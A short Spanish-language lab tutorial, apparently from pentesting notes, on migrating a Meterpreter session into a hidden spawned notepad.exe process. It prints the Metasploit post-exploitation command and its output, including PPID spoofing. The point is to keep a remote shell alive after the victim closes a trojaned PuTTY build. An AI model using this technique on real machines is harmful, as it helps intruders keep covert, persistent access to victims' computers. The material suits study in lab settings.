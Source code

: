 # Migración de meterpreter a otro proceso

Siguiendo la practica anterior, cuando el usuario cierra el programa se nos va la sesion, pero para que no pase esto podremos migrar a otro proceso para que cuando dicho usuario cierre el programa a nosotros no nos afecte y podamos seguir teniendo la shell.

Si nosotros dentro de la sesion de `meterpreter` ponemos el siguiente comando:

```shell
run post/windows/manage/migrate
```

Info:

```
[*] Running module against DESKTOP-EALA4JN
[*] Current server process: puttyX.exe (7156)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 1296
[+] Successfully migrated into process 1296
```

Lo que esta haciendo es que esta creando un nuevo proceso oculto, en este caso llamado `notepad.exe` y migra este `meterpreter` a dicho proceso, por lo que cuando se cierre el programa no le va a pasar nada a la conexion.

Este sera el proceso donde esta la shell:

<figure><img src="../../../.gitbook/assets/image (138) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que si se cierra ese, se nos va la conexion.
